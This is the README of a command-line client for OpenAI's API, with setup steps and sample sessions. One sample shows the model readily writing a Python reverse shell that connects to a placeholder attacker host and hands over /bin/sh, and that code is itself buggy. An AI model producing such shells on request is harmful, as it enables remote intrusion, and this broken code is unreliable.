 # gpt-cli

This is a command line tool used for interacting with OpenAI's API.

Default model is `text-davinci-003` (which ChatGPT was originally built from).

This tool requires the following environment variables to be set:

- `OPENAI_API_KEY`
- `OPENAI_ORGANIZATION_ID`

You can further tweak functionality by setting the following additional environment variables:

- `OPENAI_MODEL`
- `OPENAI_DEFAULT_PROMPT`
- `OPENAI_LOGFILE`
- `OPENAI_TEMPERATURE`
- `OPENAI_MAX_TOKENS`

All environment variables can be set by filling in values from `example.env`, renaming that file to `.env`, and running `./bin/gpt 'Your prompt here'`.

Alternately, you can pass them all on the command line using something like this:

```
OPENAI_API_KEY=foo OPENAI_ORGANIZATION_ID=bar ./bin/gpt 'Your prompt here'
```

If installing from PyPi, set the `OPENAI_API_KEY` and `OPENAI_ORGANIZATION_ID` in your `~/.bashrc` or `~/.zshrc`, and run as follows:

```
gpt 'Your prompt here'
```

## Installation (PyPi) - set variables in rc files:

`python3 -m pip install gpt-cli`

## Installation (local) - set variables in .env:

```
git clone https://github.com/phx/gpt-cli
cd gpt-cli
python3 -m pip install -r requirements.txt
```

### Examples:

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  gpt 'Write python script to create reverse shell.'
Prompt:
Write python script to create reverse shell.

Answer:
import socket
import subprocess# Create a socket
s = socket.socket()# Connect to the attacker machine
s.connect(("attacker_ip", attacker_port))# Create a subprocess to execute a shell
proc = subprocess.Popen(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno())# Keep the connection alive
while True:
    data = s.recv(1024)
    if data == "exit":
        break
    proc.stdin.write(data)
    proc.stdout.flush()# Close the connection
s.close()
----------------------------------------------------------------------
```

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt 'Who is Gregory Washingheimer Van Fleet?'
Prompt:
Who is Gregory Washingheimer Van Fleet?

Answer:
Unknown.
----------------------------------------------------------------------
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt 'Who is John Adams?'                     
Prompt:
Who is John Adams?

Answer:
John Adams was the second President of the United States, serving from 1797 to 1801.
----------------------------------------------------------------------
```



